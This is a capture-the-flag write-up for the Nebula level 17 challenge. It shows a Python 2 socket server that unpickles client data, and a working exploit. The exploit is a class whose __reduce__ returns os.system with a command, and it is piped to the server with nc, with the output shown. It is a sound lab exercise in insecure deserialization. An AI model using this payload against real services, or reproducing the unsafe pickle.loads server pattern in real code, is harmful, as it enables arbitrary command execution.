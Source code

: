 ## Challenge
There is a python script listening on port 10007 that contains a vulnerability.

## Solution
```python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```
* TCP Server listening at 10007
* Forks a new process for each client it serves
* Server reads 1024 bytes to `line`
* Unpickles `line` to Python object `obj`
  * Feels like our intervention point
* Iterates `obj`'s items and prints them

Nebula runs Python 2.
```
level17@nebula:/home/flag17$ python --version
Python 2.7.2+
```

In Python you can use `pickle` to serialize and unserialize Python objects.

[Python 2's `pickle` documentation](https://docs.python.org/2/library/pickle.html) warns:
> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

After reading some more in the documentation I found the following:
```
object.__reduce__()

  When the Pickler encounters an object of a type it knows nothing about — such as an extension type — it looks in two places for a hint of how to pickle it.
  One alternative is for the object to implement a __reduce__() method.
  If provided, at pickling time __reduce__() will be called with no arguments, and it must return either a string or a tuple.

  ...

  When a tuple is returned, it must be between two and five elements long.
  Optional elements can either be omitted, or None can be provided as their value.
  The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
  
  The semantics of each element are:
  
  * A callable object that will be called to create the initial version of the object.
    The next element of the tuple will provide arguments for this callable,
    and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.
    
    In the unpickling environment this object must be either a class, a callable registered as a “safe constructor” (see below),
    or it must have an attribute __safe_for_unpickling__ with a true value. Otherwise, an UnpicklingError will be raised in the unpickling environment.
    Note that as usual, the callable itself is pickled by name.

  * A tuple of arguments for the callable object.

  * Optionally, the object’s state, which will be passed to the object’s __setstate__() method as described in section Pickling and unpickling normal class instances.
    If the object has no __setstate__() method, then, as above, the value must be a dictionary and it will be added to the object’s __dict__.

  * Optionally, an iterator (and not a sequence) yielding successive list items.
    These list items will be pickled, and appended to the object using either obj.append(item) or obj.extend(list_of_items).
    This is primarily used for list subclasses, but may be used by other classes as long as they have append() and extend() methods with the appropriate signature.
    (Whether append() or extend() is used depends on which pickle protocol version is used as well as the number of items to append, so both must be supported.)

  * Optionally, an iterator (not a sequence) yielding successive dictionary items, which should be tuples of the form (key, value).
    These items will be pickled and stored to the object using obj[key] = value.
    This is primarily used for dictionary subclasses, but may be used by other classes as long as they implement __setitem__().
```
So basically if we want our special object to be pickled correctly we can implement a method called `__reduce()__`
* That method returns a tuple that describes how to handle the object
  * a callable object for unpickling, (e.g. a function)
  * arguments for the function

We can abuse this tuple to execute arbitrary commands.
* callable object - `os.system()`, it happens the server imports `os`, but this will work regardless
* arguments - command to execute

Let's write a Python script that constructs the evil pickled object.
```python
import pickle
import os

COMMAND = 'getflag > /home/flag17/exploit_output'

class PickleExploit(object):
    def __reduce__(self):
        return (os.system, (COMMAND,))

payload = pickle.dumps(PickleExploit())
print payload

```
We can then pipe the script's output (pickled object) to a socket connecting to the server.
```console
level17@nebula:~$ python pickle_exploit.py | nc 127.0.0.1 10007
Accepted connection from 127.0.0.1:53612^C
level17@nebula:~$ ls -la /home/flag17
total 14
drwxr-x--- 1 flag17 level17   80 2021-08-13 07:31 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag17 flag17   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag17 flag17  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag17 flag17    59 2021-08-13 08:34 exploit_output
-rw-r--r-- 1 root   root     520 2011-11-20 21:22 flag17.py
-rw-r--r-- 1 flag17 flag17   675 2011-05-18 02:54 .profile
level17@nebula:~$ cat /home/flag17/exploit_output
You have successfully executed getflag on a target account
```
